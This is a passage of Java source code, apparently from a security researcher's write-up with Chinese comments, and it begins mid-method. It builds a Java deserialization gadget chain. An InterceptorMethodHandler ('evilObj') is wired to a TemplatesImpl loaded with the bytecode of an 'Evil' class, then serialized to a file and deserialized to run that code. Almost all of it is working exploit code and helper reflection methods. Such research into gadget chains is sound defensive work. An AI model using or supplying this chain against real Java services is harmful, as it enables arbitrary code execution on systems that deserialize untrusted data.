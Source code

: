 ```


        List list = new ArrayList();
        list.add(methodMetadata);
        Map<InterceptionType, List<MethodMetadata>> hashMap = new HashMap<>();
        hashMap.put(InterceptionType.POST_ACTIVATE, list);

        SimpleInterceptorMetadata simpleInterceptorMetadata = new SimpleInterceptorMetadata(interceptorReference, true, hashMap);
        builder.interceptAll().with(simpleInterceptorMetadata);
        InterceptionModel model = builder.build();

        HashMap map = new HashMap();
        map.put(&#34;heihu577&#34;, &#34;heihu577&#34;);
        DefaultInvocationContextFactory factory = new DefaultInvocationContextFactory();
        InterceptorInstantiator interceptorInstantiator = new InterceptorInstantiator() {
            @Override
            public Object createFor(InterceptorReference interceptorReference) {
                return templatesImpl;
            }
        };
        InterceptorMethodHandler evilObj = new InterceptorMethodHandler(map, metadata, model, interceptorInstantiator, factory);
        new ObjectOutputStream(new FileOutputStream(&#34;D:/1.ser&#34;)).writeObject(evilObj);
        new ObjectInputStream(new FileInputStream(&#34;D:/1.ser&#34;)).readObject();
    }

    // 通过反射获取成员属性
    public static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        return field.get(obj);
    }

    // 通过反射创建实例
    public static <T> T getObjByReflection(Class<T> clazz, Class[] args, Object[] argsValue) throws Exception {
        Constructor declaredConstructor = clazz.getDeclaredConstructor(args);
        declaredConstructor.setAccessible(true);
        return (T) declaredConstructor.newInstance(argsValue);
    }

    public static TemplatesImpl getTemplatesImpl() throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        Field bytecodes = templates.getClass().getDeclaredField(&#34;_bytecodes&#34;); // 最终调用到 defineClass 方法中加载类字节码
        Field name = templates.getClass().getDeclaredField(&#34;_name&#34;); // 放置任意值
        Field tfactory = templates.getClass().getDeclaredField(&#34;_tfactory&#34;);
        name.setAccessible(true);
        bytecodes.setAccessible(true);
        tfactory.setAccessible(true);
        byte[][] myBytes = new byte[1][];
        myBytes[0] = Repository.lookupClass(Evil.class).getBytes(); // 这个恶意类必须继承`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`抽象类, 之前有分析过, 就不提及了.
        bytecodes.set(templates, myBytes);
        name.set(templates, &#34;&#34;);
        tfactory.set(templates, new TransformerFactoryImpl());
        return templates;
    }
}

```
